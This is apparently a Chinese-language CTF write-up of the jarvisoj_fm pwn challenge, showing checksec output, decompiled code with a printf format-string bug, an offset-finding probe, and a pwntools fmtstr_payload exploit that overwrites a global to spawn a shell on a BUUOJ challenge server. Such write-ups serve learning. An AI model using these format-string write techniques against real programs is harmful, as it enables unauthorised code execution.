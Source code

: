 ```yaml
---
title: jarvisoj_fm
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

先来个 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec fm                    
[*] '/home/ela/Pwn/fm'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

有 Canary 和 NX，先看看再说吧

用 IDA 打开主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[80]; // [esp+2Ch] [ebp-5Ch] BYREF
  unsigned int v5; // [esp+7Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(buf, 0, sizeof(buf));
  read(0, buf, 0x50u);
  printf(buf);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```

发现获得 Shell 的方法就是把 `x` 嗯改成 `4`，而 `x` 原本的值为 `3`，再看一眼 `x` 的地址，是 `0x804A02C`

可以靠格式化字符串 `printf()` 漏洞来强行更改 `x`，但首先我们需要知道格式化字符串的偏移量

## 计算偏移

```python
from pwn import *

io = remote("node4.buuoj.cn", 26068)
io.sendline("aaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p")
io.interactive()
```

得到的结果如下

```
aaaa-0xffd92ffc-0x50-(nil)-0xf7f94000-0xf7f94918-0xffd93000-0xffd930f4-(nil)-0xffd93094-0x32-0x61616161-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d
```

字符串 `aaaa` 对应的 16 进制应当为 `0x61616161`，于是我们可以看出偏移为 `11` 位

## 编写 Exp

直接使用 Pwntools 自带的 `fmtstr_payload()` 函数构建 Payload

```python
from pwn import *

io = remote("node4.buuoj.cn", 26068)
x_addr = 0x804A02C
payload = fmtstr_payload(11, {x_addr: 4})
io.sendline(payload)
io.interactive()

```

最后得到 Flag 为 `flag{22911b79-0cff-434b-9233-47389f152a6c}`